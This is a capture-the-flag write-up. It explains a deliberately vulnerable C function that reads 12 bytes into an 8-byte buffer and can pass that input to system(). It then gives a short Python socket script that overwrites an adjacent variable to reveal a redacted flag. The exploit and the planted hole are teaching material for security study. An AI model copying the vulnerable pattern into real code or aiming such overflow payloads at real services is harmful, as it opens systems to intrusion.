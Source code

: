 Buffer Overflow Exploitation on a C Program
Introduction

This write-up details the process of exploiting a buffer overflow vulnerability in a C program as part of a Capture The Flag (CTF) challenge. The challenge involved manipulating the value of a variable by overflowing a buffer in the program.
The Vulnerable Program

The C program provided for the challenge contained a function named play(). This function declared a buffer of size 8 bytes and two integer variables a and b. The function read 12 bytes of input into the 8-byte buffer, creating a buffer overflow vulnerability. Depending on the values of a and b, the function would perform different actions, including reading a file named "flag.0".

c code below:

int play() {

	int a;
	int b;
	char buffer[010];
	a = 0x41414141;
	b = 0x42424242;

	if (write(STDOUT_FILENO, "For a moment, nothing happened. Then, after a second or so, nothing continued to happen.\n> ", 91) < 0) {
		perror("write");
	}

	sleep(1);

    if (read(STDIN_FILENO, &buffer, 0xC) < 0) {
        perror("read");
    }
	
	if (a == 31337) {
		system(buffer);
	}

	else if (b == 42) {
		readfile("flag.0");
	}

	else if (b == 23) {
		readfile("vuln1.txt");
	}

	else {
		write(STDOUT_FILENO, "So long and thanks for all the fish.\n", 37);
	}

}

The Exploit

The goal of the challenge was to exploit the buffer overflow vulnerability to change the value of b to 42, causing the program to read the "flag.0" file.

To achieve this, a payload was constructed that consisted of 8 bytes to fill up the buffer, followed by 4 bytes to overwrite the value of b. The payload was sent to the program over a network connection.

Here's the Python script that was used to send the payload:

python

import struct
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 1984))  # replace with the actual host and port

response = s.recv(1024)
print(response)

payload = b'A' * 8  # fill up the buffer
payload += struct.pack('<I', 42)  # overwrite b with 42 (little-endian)

s.send(payload)
response = s.recv(1024)
print(response)

Result

The script successfully exploited the buffer overflow vulnerability, causing the program to read the "flag.0" file and send the contents back over the network connection. The contents of the file were the flag for the CTF challenge: *REDACTED*.

Conclusion

This challenge demonstrated the dangers of buffer overflow vulnerabilities and the importance of proper input validation and buffer management in C programs.

